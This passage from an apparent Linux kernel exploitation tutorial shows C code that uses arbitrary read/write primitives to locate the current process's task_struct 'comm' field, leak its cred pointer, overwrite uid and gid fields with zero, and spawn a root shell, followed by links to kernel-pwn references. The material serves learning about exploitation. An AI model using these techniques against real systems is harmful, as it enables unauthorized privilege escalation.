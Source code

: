 ```c
        printf("[+] Found 'comm' at 0x%llx\n", addr);
        break;
    }
}
```
The address we leak from here is `comm` member of the `task_struct` which holds the process information. Few bytes above `comm` member is an address to `cred` structure.
3. Leak the `cred` structure that is above `comm` member
```c
long long addr_cred = 0;
addr_cred |= AAR32(addr - 8);
addr_cred |= (long long)AAR32(addr - 4) << 32;
printf("[+] current->cred = 0x%llx\n", addr_cred);
```
4. Overwrite all uid and gid fields to 0
```c
for (int i = 1; i < 9; i++) {
    AAW32(addr_cred + i*4, 0);
}
```
5. At this point the process is promoted to root. What's left is to spawn a shell.
```c
system("/bin/sh");
```

# References

<https://pawnyable.cafe/linux-kernel/>

<https://sam4k.com/like-techniques-modprobe_path/>

<https://h0mbre.github.io/PAWNYABLE_UAF_Walkthrough/>

<https://github.com/smallkirby/kernelpwn/tree/master/technique>

<https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628>

<https://man7.org/linux/man-pages/man2/prctl.2.html>